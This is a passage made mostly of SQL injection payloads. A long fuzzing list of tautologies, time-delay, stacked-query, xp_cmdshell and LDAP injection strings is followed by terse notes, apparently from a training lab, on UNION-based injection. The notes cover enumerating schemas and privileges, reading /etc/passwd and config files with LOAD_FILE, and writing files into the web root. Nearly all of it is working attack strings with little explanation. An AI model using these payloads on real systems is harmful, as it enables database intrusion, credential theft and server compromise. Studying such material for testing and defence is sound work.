<>"'%;)(&+
|
!
?
/
//
//*
'
' -- 
(
)
*|
*/*
&
0
031003000270000
0 or 1=1
0x730065006c00650063007400200040004000760065007200730069006f006e00 exec(@q)
0x770061006900740066006F0072002000640065006C00610079002000270030003A0030003A
0x77616974666F722064656C61792027303A303A31302700 exec(@s)
1;(load_file(char(47,101,116,99,47,112,97,115,115,119,100))),1,1,1;
1 or 1=1
1;SELECT%20*
1 waitfor delay '0:0:10'--
'%20or%20''='
'%20or%201=1
')%20or%20('x'='x
'%20or%20'x'='x
%20or%20x=x
%20'sleep%2050'
%20$(sleep%2050)
%21
23 OR 1=1
%26
%27%20or%201=1
%28
%29
%2A%28%7C%28mail%3D%2A%29%29
%2A%28%7C%28objectclass%3D%2A%29%29
%2A%7C
||6
'||'6
(||6)
%7C
a'
admin' or '
' and 1=( if((load_file(char(110,46,101,120,116))<>char(39,39)),1,0));
' and 1 in (select var from temp)--
anything' OR 'x'='x
"a"" or 1=1--"
a' or 1=1--
"a"" or 3=3--"
a' or 3=3--
a' or 'a' = 'a
&apos;%20OR
as
asc
a' waitfor delay '0:0:10'--
'; begin declare @var varchar(8000) set @var=':' select @var=@var+'+login+'/'+password+' ' from users where login > 
bfilename
char%4039%41%2b%40SELECT
declare @q nvarchar (200) 0x730065006c00650063007400200040004000760065007200730069006f006e00 exec(@q)
declare @q nvarchar (200) select @q = 0x770061006900740066006F0072002000640065006C00610079002000270030003A0030003A0031003000270000 exec(@q)
declare @q nvarchar (4000) select @q =
declare @s varchar (200) select @s = 0x73656c65637420404076657273696f6e exec(@s)
declare @s varchar(200) select @s = 0x77616974666F722064656C61792027303A303A31302700 exec(@s) 
declare @s varchar(22) select @s =
declare @s varchar (8000) select @s = 0x73656c65637420404076657273696f6e
delete
desc
distinct
'||(elt(-3+5,bin(15),ord(10),hex(char(45))))
'; exec master..xp_cmdshell
'; exec master..xp_cmdshell 'ping 172.10.1.255'--
exec(@s)
'; exec ('sel' + 'ect us' + 'er')
exec sp
'; execute immediate 'sel' || 'ect us' || 'er'
exec xp
'; exec xp_regread
' group by userid having 1=1--
handler
having
' having 1=1--
hi or 1=1 --"
hi' or 1=1 --
"hi"") or (""a""=""a"
hi or a=a
hi' or 'a'='a
hi') or ('a'='a
'hi' or 'x'='x';
insert
like
limit
*(|(mail=*))
*(|(objectclass=*))
or
' or ''='
 or 0=0 #"
' or 0=0 --
' or 0=0 #
" or 0=0 --
or 0=0 --
or 0=0 #
' or 1 --'
' or 1/*
; or '1'='1'
' or '1'='1
' or '1'='1'--
' or 1=1
' or 1=1 /*
' or 1=1--
' or 1=1-- 
'/**/or/**/1/**/=/**/1
‘ or 1=1 --
" or 1=1--
or 1=1
or 1=1--
 or 1=1 or ""=
' or 1=1 or ''='
' or 1 in (select @@version)--
or%201=1
or%201=1 --
' or 2 > 1
' or 2 between 1 and 3
' or 3=3
‘ or 3=3 --
' or '7659'='7659
 or a=a
 or a = a
' or 'a'='a
' or a=a--
') or ('a'='a
" or "a"="a
) or (a=a
order by
' or (EXISTS)
 or isNULL(1/0) /*
" or isNULL(1/0) /*
' or 'something' like 'some%'
' or 'something' = 'some'+'thing'
' or 'text' = n'text'
' or 'text' > 't'
' or uid like '%
' or uname like '%
' or 'unusual' = 'unusual'
' or userid like '%
' or user like '%
' or username like '%
' or username like char(37);
' or 'whatever' in ('whatever')
' -- &password=
password:*/=1--
PRINT
PRINT @@variable
procedure
replace
select
' select * from information_schema.tables--
' select name from syscolumns where id = (select id from sysobjects where name = tablename')--
' (select top 1
--sp_password
'sqlattempt1
(sqlattempt2)
'sqlvuln
'+sqlvuln
(sqlvuln)
sqlvuln;
t'exec master..xp_cmdshell 'nslookup www.google.com'--
to_timestamp_tz
truncate
tz_offset
' UNION ALL SELECT
' union all select @@version--
' union select 
uni/**/on sel/**/ect
' UNION SELECT
' union select 1,load_file('/etc/passwd'),1,1,1;
) union select * from information_schema.tables;
' union select * from users where login = char(114,111,111,116);
update
'||UTL_HTTP.REQUEST
,@variable
@variable
@var select @var as var into temp end --
\x27UNION SELECT
x' AND 1=(SELECT COUNT(*) FROM tabname); --
x' AND email IS NULL; --
x' AND members.email IS NULL; --
x' AND userid IS NULL; --
x' or 1=1 or 'x'='y
x' OR full_name LIKE '%Bob%
ý or 1=1 --


admin' or '1'='1

' or 1=1

adam' or '1'='1



' OR id = 5) -- - : just on the username part


select emp_no, birth_date, first_name, last_name, gender, hire_date from employees UNION SELECT  dept_no, dept_name, NULL, NULL, NULL, NULL from departments;

find the number of columns on the tables
then  use  NULL to "make up for it"



select count(tem.emp_no) from (select emp_no, birth_date, first_name, last_name, gender, hire_date from employees UNION SELECT  dept_no, dept_name, NULL, NULL, NULL, NULL from departments
) as tem;


' order by 1-- -

cn' UNION select 1,2,3-- -


1,2,3 is the amount to guess the number of columns


cn' UNION select 1,2,3,4-- -


cn' UNION select 1,2,3,@@version-- -

INFORMATION_SCHEMA Database

To pull data from tables using UNION SELECT, we need to form our SELECT queries properly. To do so, we need the following information:

    List of databases
    List of tables within each database
    List of columns within each table


cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

this get the current database the webapp is using
cn' UNION select 1,database(),2,3-- -

this gets  the list of tables for the given databases

cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -

cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -


cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -


READ FILES

cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
Have to view page source


WRITE FILES

cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -



SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

cn' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -

cn' UNION select 1,2,3,4,5-- -

cn' UNION select 1,LOAD_FILE("/etc/passwd"),2,3,4-- -


cn' UNION select 1,user(),2,3,4-- -


cn' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user WHERE user="root"-- -


cn' UNION select 1,LOAD_FILE("/var/www/html/dashboard/dashboard.php"),2,3,4-- -
cn' UNION select 1,LOAD_FILE("/var/www/html/config.php"),2,3,4-- -
cn' UNION select 1,LOAD_FILE("/var/www/html/dashboard/dashboard.php"),2,3,4-- -

cn' UNION select 1,LOAD_FILE("/var/www/html/index.php"),2,3,4-- -

cn' UNION select 1,LOAD_FILE("/var/www/html/config.php"),2,3,4-- -
cn' UNION select 1,LOAD_FILE("/var/www/html/index.php"),2,3,4-- -

cn' UNION select 1,LOAD_FILE("/etc/apache2/httpd.conf"),2,3,4-- -
cn' UNION select 1,LOAD_FILE("/etc/apache2/apache2.conf"),2,3,4-- -
cn' UNION select 1,LOAD_FILE("/etc/httpd/httpd.conf"),2,3,4-- -
cn' UNION select 1,LOAD_FILE("/etc/httpd/conf/httpd.conf"),2,3,4-- -

cn' UNION select 1,LOAD_FILE("/var/www/html/dashboard/dashboard.css"),2,3,4-- -

cn' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/proof.txt'-- -
cn' union select 1,'file written successfully!',3,4,5 into outfile '/tmp/proof.txt'-- -
cn' UNION select 1,LOAD_FILE("/tmp/proof.txt"),2,3,4-- -
